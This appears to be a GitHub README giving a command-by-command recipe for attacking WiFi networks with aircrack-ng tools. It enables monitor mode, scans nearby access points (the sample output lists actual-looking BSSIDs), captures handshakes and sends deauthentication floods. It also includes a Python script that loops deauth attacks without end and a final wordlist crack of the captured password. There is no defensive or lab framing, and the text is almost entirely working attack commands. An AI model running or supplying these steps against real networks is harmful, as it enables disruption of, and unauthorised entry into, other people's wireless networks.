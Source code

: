 ### enable monitor mode
```
sudo ifconfig wlan0 down
sudo airmon-ng start wlan0
```



### airodump-ng scanning
```
sudo airodump-ng wlan0mon

# ex)
# 70:5D:CC:65:45:C2 - 305
# 88:36:6C:90:F4:DE - Iptime
# 70:5D:CC:6C:F2:80 - O
# 70:5D:CC:8A:A2:7E - iptime
# 80:4E:81:0A:75:83 - my phone
```


### save traffic packets
```
sudo airodump-ng --bssid 00:00:00:00:00:00 -w filename wlan0mon
```


### execute aireplay-ng
```
sudo aireplay-ng --deauth 100 -a 00:00:00:00:00:00 wlan0mon

# ex)
# sudo aireplay-ng --deauth 100 -a 70:5D:CC:65:45:C2 wlan0mon
```

### deauth.py
```python
import os, time

while True:
	os.system("aireplay-ng --deauth 10 -a 00:00:00:00:00:00 wlan0")
	time.sleep(1)

```

```bash
sudo python3 deauth.py
```




### aireplay-ng error : (wlan0mon is on channel 2, but the AP uses channel 5)
```
sudo airmon-ng start wlan0mon 5
or)
sudo iwconfig wlan0mon channel 5
```



### crack password
```
sudo aircrack-ng filename.cap -w dict.lst
```

